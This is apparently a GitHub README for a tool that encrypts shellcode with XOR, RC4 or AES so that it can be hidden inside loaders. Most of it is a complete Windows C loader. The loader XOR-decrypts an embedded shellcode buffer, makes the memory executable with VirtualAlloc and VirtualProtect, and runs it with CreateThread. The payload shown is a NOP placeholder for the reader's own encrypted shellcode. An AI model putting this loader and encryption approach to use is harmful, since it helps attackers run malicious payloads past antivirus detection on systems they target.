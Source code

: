 # ShellcodeCryptor
Stupid little tool to encrypt/decrypt shellcode

Encrypt shellcode files using XOR, RC4, and AES


To utilize your encrypted shellcode in a loader, just re-implement the decryption logic on your shellcode buffer within your loader. Listed below are working examples:

### XOR
```c
#include <Windows.h>
#include <stdio.h>
#include <stdlib.h>

void XOR(char* data, size_t data_len, char* key, size_t key_len) {
    int j;

    j = 0;
    for (int i = 0; i < data_len; i++) {
        if (j == key_len - 1) j = 0;

        data[i] = data[i] ^ key[j];
        j++;
    }
}

void shellcode() {
    void* exec_mem;
    BOOL rv;
    HANDLE th;
    DWORD oldprotect = 0;

    // XOR key
    unsigned char key[] = "s3cr3t";

    // Replace with your own encrypted shellcode
    unsigned char buf[] = { 0x90, 0x90, 0x90 };
    unsigned int payload_len = sizeof(buf);

    // Allocate a memory buffer for payload
    exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    XOR((char*)buf, payload_len, key, sizeof(key));

    // Copy payload to new buffer
    RtlMoveMemory(exec_mem, buf, payload_len);

    // Make new buffer as executable
    rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);

    // If all good, run the payload
    if (rv != 0) {
        th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec_mem, 0, 0, 0);
        WaitForSingleObject(th, -1);
    }
}

int main(int argc, char* argv[]) {
  shellcode();

  return 0;
}
```
